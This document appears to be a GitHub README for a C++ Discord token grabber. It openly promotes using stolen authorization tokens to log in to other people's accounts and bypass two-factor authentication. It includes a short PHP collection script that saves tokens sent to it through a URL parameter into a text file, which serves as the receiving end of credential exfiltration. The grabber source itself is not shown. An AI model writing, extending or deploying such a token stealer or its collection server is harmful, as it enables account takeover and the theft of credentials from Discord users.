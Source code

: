 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and can be accessed by anyone so I would recommend changing it.
```php
<?php

$file = fopen("tokens.txt", "w");
if(isset($_GET["t"])){
	fwrite($file, $_GET["t"]);
}

?>
```
